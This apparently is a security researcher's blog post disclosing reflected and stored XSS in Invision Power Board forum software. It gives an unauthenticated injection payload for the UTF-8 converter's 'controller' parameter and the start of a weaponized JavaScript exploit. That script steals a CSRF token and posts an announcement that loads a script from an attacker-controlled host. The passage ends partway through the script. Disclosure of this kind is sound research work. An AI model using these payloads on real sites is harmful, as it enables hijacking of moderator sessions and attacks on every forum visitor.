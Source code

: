 ```yaml
---
layout: post
title: "Reflected and Stored XSS in Invision Power Board"
author: Corben Leo
---
```

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<a style="color:#E22A3C" target='_blank' rel='noopener noreferrer' href='https://en.wikipedia.org/wiki/Invision_Power_Board'>Invision Power Board</a> is a very popular paid forum software. I decided to audit it and initially found a few stored XSS vulnerabilities in the admin panel, all had a low impact, so I didn't report them. I then came across the **Announcements** function in the Moderator Control Panel. Essentially this function allows moderators and admins to create an forum announcement for every user to see, and it also allowed any HTML in it!<br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;If I had access to a **moderator** account or higher, I could easily put an XSS payload in an annoucement and attack everyone. I obviously wasn't satisfied so I kept searching for another bug to chain it with.
<br><br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;I eventually came across the IPS UTF8 Converter, when I was using find & grep to find different variables in the source code. This tool, which comes with the default installation, is used to convert all the tables in the database to UTF-8. I opened up the path to the converter `admin/convertutf8/index.php`  and quickly got an error message. I was pretty bummed because I was initally looking into an RCE, but came up empty. But then I saw the `controller=` parameter. I checked the source of the page and saw that this parameter was not sanitizing any input at all and that I could insert HTML and javascript here, no authentication required! My first proof of concept was just a simple payload =>  `%29};alert(document.domain);{ %27`
<br><br>
Most times when people report an XSS or do a write up, they just use an `alert(1)` and just give a hypothetical attack. I didn't want to do that with this one. I really wanted to weaponize this as much as possible (and in a fun way), so I coded a couple scripts to do just that!
<br><br>
The first script I coded was: https://blog.lynxsecurity.io/pocs/xss.js
```javascript
/*
 _
(_)_ ____      ___ __
| | '_ \ \ /\ / / '_ \
| | |_) \ V  V /| | | |
|_| .__/ \_/\_/ |_| |_|
 |_|  IPB Exploit
      by @C0RB3N
*/

// specifies the target, the title of the announcement, and the xss payload!
var target = 'http://<target>/index.php?/modcp/announcements/&action=create';
var title = 'URGENT';

// Don't use quotes! It'll break our form down below!
var payload = '<script src=//<ATTACKER>/lol.js></script>';

// steals the csrf token ;)
var cdl = get(target);
document.body.innerHTML = cdl;
var form = document.getElementsByTagName('input')[3];
var token = form.value;

// DON'T EDIT!!
// Gets the current date! Thanks stackoverflow
var today = new Date();
var dd = today.getDate();
var mm = today.getMonth()+1; //January is 0!
var yyyy = today.getFullYear();
if(dd<10){
    dd='0'+dd;
```